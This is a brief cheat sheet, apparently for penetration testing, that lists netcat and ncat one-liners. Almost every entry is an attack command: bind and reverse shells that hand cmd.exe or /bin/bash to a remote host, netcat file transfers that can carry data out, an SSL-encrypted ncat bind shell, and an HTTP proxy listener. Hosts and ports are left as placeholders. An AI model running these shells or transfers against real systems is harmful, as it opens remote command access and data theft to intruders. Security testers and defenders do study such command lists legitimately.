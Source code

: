 # netcat

% nc, netcat

## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfert file - receiver
```
nc -nlvp <port> > <incomming_file>
```

## nc transfert file - sender
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
```
ncat --listen --proxy-type http <port>
```

